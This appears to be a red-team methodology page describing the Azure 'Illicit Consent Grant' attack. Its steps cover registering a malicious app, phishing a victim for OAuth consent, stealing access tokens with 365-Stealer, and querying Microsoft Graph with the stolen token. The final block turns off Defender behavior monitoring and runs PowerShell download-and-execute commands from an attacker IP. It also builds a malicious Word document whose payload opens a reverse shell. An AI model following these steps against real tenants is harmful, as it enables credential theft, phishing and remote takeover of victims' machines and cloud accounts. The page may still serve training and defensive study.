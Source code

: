 # Illicit Consent Grant

## Attack path overview

Illicit consent Grant is the most common attack on Azure.

<figure><img src="../../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

## Methodology

* As an attacker, create a tenant (even using the free registration)
* &#x20;Use "App registration" to create a malicious App
* Send the link to a victim
* Victim grant consent to the app and an authorization response will be sent to the attacker app, containing an access token
* Attacker can use the access token to access any service on the target tenant, such as MSGraph

## Implementation

* Register a new app from Azure AD

note: Domain can also be an IP.

<figure><img src="../../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

* Next, create a client secret and save it

<figure><img src="../../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

* Add API permission for MSGraph API

<figure><img src="../../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

* Grant "Delegated Permission" to access the MSGraph using the target victim account and add User.ReadBasicAll (Low impact, no admin consent needed\*) permission

<figure><img src="../../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

> In case of already getting a foothold in the target tenant (eg compromised host), it is possible to verify the Consent Grant policy. Otherwise, it is not possible, we just have to blindly test it&#x20;

```powershell
# import AzureAD-Preview powershell module

Import-Module .\AzureADPreview.psd1

# check policy
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole

# if it returns ManagePermissionGrantsForSelf.microsoft-user-default-legacy, it means tha
# the user can grant consent to all apps
```

## Weaponize the App

> Diffenrent tools can be used to steal token :&#x20;
>
> * MDSEC o365-attack-toolkit
> * AlteredSec 365-Stealer **(just a POC, don't use that in PROD)**
>
>

### o365-attack-toolkit

TODO...

{% embed url="https://github.com/mdsecactivebreach/o365-attack-toolkit" %}

### 365-Stealer

{% embed url="https://github.com/AlteredSecurity/365-Stealer" %}

* clone the tool
* copy the directory into a the web server root (htdocs for windows)&#x20;



```powershell
cp APPFOLDER C:\xampp\htdocs\
```

* start Apache and browse into the 365-Stealer page

<figure><img src="../../../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

* configure the tool using the "Registered App" ClientID and Secret and the Redirect URI

note: use the following place to retrieve the APP id ...

![](<../../../../../.gitbook/assets/image (3).png>)

<figure><img src="../../../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

* Start 365-Stealer and retrieve the Phishing link

<figure><img src="../../../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

* Send the malicious link to the victim

<figure><img src="../../../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

> Reminder about the different parameters

<figure><img src="../../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>



* Enumerate potential subdomains on the target , eg upload files etc .Send the malicious link to the victim

```powershell
import-module C:\MicroBurst\Misc\Invoke-EnumerateAzureSubDomains.ps1
Invoke-EnumerateAzureSubDomains  -Base TARGET -Verbose
```

* retrieve the token

<figure><img src="../../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Access Token !</p></figcaption></figure>

* decoding the token

<figure><img src="../../../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

* use the token and make queries on MSGraph

```powershell
$token = "<Stolen Token>"
$URI = 'https://graph.microsoft.com/v1.0/users'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value
```

> Note: The malicious Registered App has now been added to the target Tenant, under Enterprise Applications



> ![](<../../../../../.gitbook/assets/image (1) (1) (1).png>)

<figure><img src="../../../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

### Target a higher privilege account

* search for an admin cloud user as a target
* Modify the application and add the following rights to be able to access and take control

![](<../../../../../.gitbook/assets/image (2) (1).png>)

* Regenerate a phishing link and send it to the target email retrieve from the previous steps



```powershell
// Generate a Word document from an another machine just as POC :)

PS C:\Windows\system32> $pass = ConvertTo-SecureString "PASSWORD" -AsPlainText -Force
PS C:\Windows\system32> $creds = New-Object System.Management.Automation.PSCredential ("HOST-vm\Administrator",$pass)
PS C:\Windows\system32> $officevm = New-PSSession -ComputerName IP -Credential $creds


PS C:\Windows\system32> Enter-PSSession -Session $officevm
[]: PS C:\Users\Administrator\Documents> Set-MpPreference -DisableBehaviorMonitoring $true
[]: PS C:\Users\Administrator\Documents> exit
PS C:\Windows\system32> Set-MpPreference -DisableBehaviorMonitoring $true
PS C:\Windows\system32> Enter-PSSession -Session $officevm


[]: PS C:\Users\Administrator\Documents> iex (New-Object Net.Webclient).downloadstring("http://IP:PORT/Out-Word.ps1")

[]: PS C:\Users\Administrator\Documents> Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://IP:PORT/InvokePowerShellTcp.ps1');Power -Reverse -IPAddress IP -Port 4444" -OutputFile file.doc
Saved to file file.doc

## Copy remotely
 Copy-Item -FromSession $officevm -Path C:\Users\Administrator\Documents\file.doc -Destination .
```
